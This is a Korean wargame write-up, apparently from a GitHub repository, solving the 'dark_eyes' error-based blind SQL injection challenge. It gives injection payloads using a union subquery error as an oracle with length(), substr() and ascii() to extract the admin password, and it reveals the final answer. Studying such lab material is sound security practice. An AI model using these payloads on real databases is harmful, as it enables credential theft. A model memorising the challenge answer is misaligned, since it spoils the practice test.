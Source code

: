 ## Q22.dark_eyes _ Error Based(2)
<img src="/photo/prob_22.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: col / if / case / when / sleep / benchmark <br> 문제 사항: admin의 패스워드를 찾아라.
### 해결책
```
이 문제는 쿼리문에 오류가 발생하면 창이 안보였다.
=> SQL error를 이용해야함
=> 쿼리가 참이면 정상 로드가 되고 거짓이면 창이 안보여야 된다고 생각함
=> Errer Based Blind SQL 문제가 됨
```
```
이전에 사용된 오류 쿼리인 select 1 union select 2를 사용하기 위해 조사해봄
-> select 1 union select 0는 2개의 row를 반환함
-> select 1 union select 1는 1개의 row를 반환함

select 뒤에 조건을 넣어서 참일 경우 1을 , 거짓일 경우 0을 반환할 수 있음
=> 앞의 id='admin' and pw=''가 1개의 반환값을 가짐 
=> select 1 union select (거짓조건)은 2개의 반환값을 가짐 
=> 위의 두 쿼리를 비교하면 반환값의 개수에 차이가 생김
=> ERROR 1242 (21000): Subquery returns more than 1 row 발생 
```
```
위의 error를 이용해 패스워드 길이를 찾아봄
=> length()함수 이용 ( 파이썬 사용 )
=> 밑의 쿼리가 참이므로 패스워드 길이 = 8
```
```diff
# 현재 쿼리문: where id='admin' and pw=''<>id='admin' and (select 1 union select length(pw)=8)-- '
```
<참고> Python 코드 : [패스워드 길이 탐색](code/22_pwlength.py)
```
다음으로 패스워드 각자리의 문자 확인
=> substr()함수, ascii()함수 이용 ( 파이썬 사용 )
```
```diff
# 현재 쿼리문: where id='admin' and pw=''<>id='admin' and (select 1 union select ascii(substr(pw,1,1))=53)-- '
```
<참고> Python 코드 : [패스워드 길이 탐색](code/22_pw.py)
```
해결 쿼리문: where id='admin' and pw='5a2f5d3c'
```